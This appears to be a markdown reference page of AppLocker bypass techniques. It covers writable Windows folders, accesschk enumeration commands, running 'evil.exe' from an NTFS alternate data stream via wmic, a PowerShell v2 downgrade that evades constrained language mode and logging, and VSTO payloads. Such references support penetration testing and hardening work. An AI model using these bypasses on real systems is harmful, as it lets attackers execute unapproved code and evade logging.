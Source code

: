 This list contains generic methods of bypassing AppLocker.

## Placing files in writeable paths

The following folders are by default writable and executable by normal users (depends on Windows version)
```
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\drivers\color

C:\Windows\Tasks

C:\windows\tracing
```

You can check the for additional paths by running accesschk from sysinternals and supplying these commands:
```
accesschk -w -s -q -u Users "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Everyone "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files" >> programfiles.txt
accesschk -w -s -q -u Interactive "C:\Program Files" >> programfiles.txt

accesschk -w -s -q -u Users "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Everyone "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Program Files (x86)" >> programfilesx86.txt
accesschk -w -s -q -u Interactive "C:\Program Files (x86)" >> programfilesx86.txt

accesschk -w -s -q -u Users "C:\Windows" >> windows.txt
accesschk -w -s -q -u Everyone "C:\Windows" >> windows.txt
accesschk -w -s -q -u "Authenticated Users" "C:\Windows" >> windows.txt
accesschk -w -s -q -u Interactive "C:\Windows" >> windows.txt
```

Example on adding binary to a writable file under program files (using ADS):
```
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"

wmic process call create '"C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"'
```
    

   
## PowerShell version 2

```
Powershell -version 2
```
Bypasses Constrained language mode in PowerShell (and also logging). To fix this Powershell version 2 should be removed from Add/Remove Windows features. 
   
   
    
## Visual Studio Tools for Office - .VSTO files

```
evilfile.vsto
```

You need to build a solution using Visual Studio Tools for Office. 
User needs to confirm installation after executing. 

* https://bohops.com/2018/01/31/vsto-the-payload-installer-that-probably-defeats-your-application-whitelisting-rules/
      
     
     
## NTFS Alternate Data Streams (ADS)

AppLocker rules does not stop things that execute in ADS. More info on that here: https://hitco.at/blog/howto-prevent-bypassing-applocker-using-alternate-data-streams/
This means you can pipe data to a stream and execute it using many of the different methods:
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f

    
